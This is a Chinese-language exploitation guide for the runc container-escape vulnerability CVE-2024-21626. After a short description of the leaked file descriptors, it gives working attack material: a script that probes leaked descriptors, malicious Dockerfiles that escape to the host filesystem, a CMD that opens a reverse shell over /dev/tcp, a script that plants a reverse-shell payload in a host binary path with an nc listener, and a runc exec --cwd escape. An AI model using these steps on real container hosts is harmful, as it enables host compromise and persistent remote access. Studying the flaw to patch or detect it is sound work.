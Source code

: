 # CVE-2024-21626利用场景



## 影响组件

runc是一个根据OCI规范，在Linux上生成和运行容器的命令行工具。runc的使用非常灵活，可以与各种容器工具和平台集成，如Docker、Kubernetes等。它支持多种容器格式，包括OCI规范定义的标准格式，以及其他格式如Docker镜像格式。作为开源项目，runc受到全球开发者社区的广泛参与和贡献，被广泛应用于生产环境中的容器化部署。

## 漏洞描述

近日，奇安信CERT监测到runc官方发布安全通告修复了**runc容器逃逸漏洞(CVE-2024-21626)**，由于runc存在内部文件描述符泄露，本地攻击者可以通过多种方式进行容器逃逸：

1、由于runc 内部意外地将包括宿主机 /sys/fs/cgroup 句柄的几个文件描述符泄漏到 runc init 中，攻击欺骗具有特权的用户执行恶意容器镜像，可以导致pid1 进程将在宿主机挂载命名空间中拥有一个工作目录，生成的进程可以访问整个宿主文件系统。

2、由于runc exec中同样存在文件描述符泄漏和工作目录验证不足。如果容器内的恶意进程知道某个管理进程将使用 --cwd 参数和给定路径调用 runc exec，便可以用符号链接将该路径替换为 /proc/self/fd/7/ 。一旦容器进程执行了容器镜像中的可执行文件，可以绕过PR_SET_DUMPABLE 保护，之后攻击者可以通过打开 /proc/$exec_pid/cwd 来访问主机文件系统。

3、可以通过将类似/proc/self/fd/7/../../../bin/bash的路径用作 process.args 二进制参数来覆盖主机二进制文件来改进攻击1、2。由于可以覆盖类似 /bin/bash的二进制文件，一旦特权用户在主机上执行目标二进制文件，攻击者就可以进行转移，以完全访问主机。

## 爆出漏洞的fd脚本

若哪个fd存在漏洞，则这个脚本会显示出来你宿主机的hostname，这个fd要记录下来填到下面的Dockerfile里

> https://github.com/Wall1e/CVE-2024-21626-POC/blob/main/poc.sh

```bash
#! /bin/bash
for i in {4..20}; do
    docker run -it --rm -w /proc/self/fd/$i ubuntu:20.04 bash -c "cat /proc/self/cwd/../../../etc/hostname"
done
```



## 恶意Dockerfile

```dockerfile
FROM ubuntu:18.04
WORKDIR /proc/1/fd/7/
```

## 构建Dockerfile

```bash
docker build .
docker run dockerid ls   ../../../
docker run dockerid cat /proc/1/cwd/../../../../etc/hostname
```

## 反弹shell

对于业务来说，给一个上面的恶意镜像

然后可以加一个CMD 反弹shell

```dockerfile
FROM ubuntu:18.04
WORKDIR /proc/1/fd/7/
CMD /bin/bash -c 'bash -i >&/dev/tcp/ip/8000 0>&1'
```

## 给宿主机植入shell

```bash
#!/bin/bash
ip=$(hostname -I | awk '{print $1}')
port=1337
cat > /proc/self/cwd/../../../../bin/bash.copy << EOF
#!/bin/bash
bash -i >& /dev/tcp/$ip/$port 0>&1
EOF

# listen and wait for reverse shell
nc -lvvp 1337
```



## 控制WROKERDIR 

```bash
runc exec --cwd /proc/1/fd/7/ demo ls ../../../../
```

有些产品可以指定 WROKERDIR 也就是 cwd 那么也受影响,可以关注一下启动时候的参数 能不能控制WROKERDIR 

